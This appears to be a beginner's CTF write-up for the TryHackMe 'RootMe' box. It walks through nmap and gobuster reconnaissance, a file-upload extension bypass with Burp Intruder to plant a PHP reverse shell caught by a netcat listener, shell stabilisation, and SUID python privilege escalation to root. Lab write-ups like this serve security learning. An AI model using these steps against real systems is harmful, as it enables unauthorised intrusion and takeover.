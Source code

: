 # Rootme- A CTF for beginners
- Reconnaissance
- Getting a shell
- Privilege Escalation

![image](./ss.png)

##  Steps-

# 1
- Running the openvpn file ```sudo openvpn CyberSumit.ovpn```
-  Setting the IP as rootme.com
# 2
- Scan the target IP with nmap
```sudo nmap -Pn -sV -vvv -oN npsv.txt```
- Only 2 port numbers are running 22,80.
(no -p- signifies first 1000 ports shall  be scanned)
- Search for known vulnerabilities in Apache 2.4.29
- No Exploits found
# 3.Finding Hidden Directories with gobuster
- ``` gobuster dir -u http://rootme.com/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
- we find js,css,uploads and panel as the hidden directories
- -whatever we upload in panel appears in uploads.
# 4.Getting the Revershell
- Look for the php payload and copy it to the present directory and upload it to panel with brute forced extensions to get a shell.
- Open burpsuite and in the proxy setting set the port number to 8085 and install the foxyproxy addon in the browser. Create a Burp proxy in foxy proxy with the port 8085 and IP as given in Burpsuite.
- Enable the intercept in proxy(BurpSuite) and as we upload a file in panel , the requests are shown in the burpsuite then we can alter some things in the request and forward it to the backend with the help of proxy.
- In a similar way we move it to the intruder and select the extension of php file and add it to brute force.
- the .phtml extension was found suitable after the attack.
- Make Sure to add the Host IP and port number to the php file.
- start the netcat listener -```nc -lvnp 2222```
- as we upload the phtml file to panel and then click on it from the uploads we can get a connection in out kali which has an unstable terminal which we need to stabilize with python commands.
 ```cd Desktop/TryHackMe/rootme```
```cp -r /usr/share/webshells/php/php-reverse-shell.php .```
# Command for Terminal Stabilization
``` python -c 'import pty; pty.spawn("/bin/bash")'```

-  ```export TERM=xterm```

# Command for Privilege Escalations

- Visit ``` python -c 'import pty; pty.spawn("/bin/bash")'```

-  ```export TERM=xterm```
- Copy the SUID command and paste it in the kali terminal to get the root privilege in machine 
- ```python -c 'import os; os.execl("/bin/sh", "sh", "-p")'```
- Find out the FLAGS using suitable commands 
- Command to search a particular name in the system -- ```find / -name user.txt 2>/dev/null```
- 



##KnowledgePlus
- To know your IP go to dnsleaktest.com and to check your IP score go to scamalytics.com 
- Directory-trans - if we can access an image in a platform by the URL then we should try to visit the upload directory, if we are not getting 403 or we are able to bypass the status then the website is vulnerable to directory trans.
- Using page source for directory trans- we can open the page source and find out the hidden directories with the manual testing 
